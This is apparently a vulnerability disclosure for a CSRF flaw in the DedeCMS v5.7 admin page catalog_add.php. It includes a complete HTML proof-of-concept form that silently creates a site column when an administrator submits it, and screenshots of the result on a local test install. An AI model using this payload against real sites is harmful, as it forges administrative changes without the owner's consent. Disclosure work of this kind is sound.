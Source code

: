 DedeCMSv5.7_ Multiple CRSF vulnerabilities exist in the 110 backend management interface, such as adding a page classification interface in "/catalog_add. php".Grasping the corresponding data packets, deleting useless verification parameters from cookies, and replaying multiple times can reveal that multiple classification labels have been established. Therefore, it is highly likely that there is a CSRF attack here

![CSRF-raw](https://github.com/thedarknessdied/dedecms/blob/main/v5.7_110-CSRF.assets/CSRF-raw.png)

Build the following CSRF POC data package, save it in the form of. html, access the relevant HTML files, and click the button

```php
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:9600/v7_110/dede/catalog_add.php" method="POST">
      <input type="hidden" name="dopost" value="save" />
      <input type="hidden" name="reid" value="0" />
      <input type="hidden" name="topid" value="0" />
      <input type="hidden" name="issend" value="1" />
      <input type="hidden" name="ishidden" value="0" />
      <input type="hidden" name="channeltype" value="1" />
      <input type="hidden" name="typename" value="TEST" />
      <input type="hidden" name="typeenglishname" value="test" />
      <input type="hidden" name="sortrank" value="50" />
      <input type="hidden" name="corank" value="0" />
      <input type="hidden" name="nextdir" value="&#123;cmspath&#125;&#47;a" />
      <input type="hidden" name="typedir" value="" />
      <input type="hidden" name="referpath" value="parent" />
      <input type="hidden" name="isdefault" value="1" />
      <input type="hidden" name="defaultname" value="index&#46;html" />
      <input type="hidden" name="ispart" value="0" />
      <input type="hidden" name="cross" value="0" />
      <input type="hidden" name="crossid" value="" />
      <input type="hidden" name="moresite" value="0" />
      <input type="hidden" name="siteurl" value="" />
      <input type="hidden" name="dfstyle" value="&#123;style&#125;" />
      <input type="hidden" name="tempindex" value="&#123;style&#125;&#47;index&#95;article&#46;htm" />
      <input type="hidden" name="templist" value="&#123;style&#125;&#47;list&#95;article&#46;htm" />
      <input type="hidden" name="temparticle" value="&#123;style&#125;&#47;article&#95;article&#46;htm" />
      <input type="hidden" name="namerule" value="&#123;typedir&#125;&#47;&#123;Y&#125;&#47;&#123;M&#125;&#123;D&#125;&#47;&#123;aid&#125;&#46;html" />
      <input type="hidden" name="namerule2" value="&#123;typedir&#125;&#47;list&#95;&#123;tid&#125;&#95;&#123;page&#125;&#46;html" />
      <input type="hidden" name="seotitle" value="" />
      <input type="hidden" name="typebigimg" value="" />
      <input type="hidden" name="typesmallimg" value="" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="" />
      <input type="hidden" name="content" value="" />
      <input type="hidden" name="imageField&#46;x" value="34" />
      <input type="hidden" name="imageField&#46;y" value="18" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

It can be observed that a custom tab bar appeared on the originally empty website column management interface, and the attack was successful

![env_raw](https://github.com/thedarknessdied/dedecms/blob/main/v5.7_110-CSRF.assets/env_raw.png)

![env_click](https://github.com/thedarknessdied/dedecms/blob/main/v5.7_110-CSRF.assets/env_click.png)


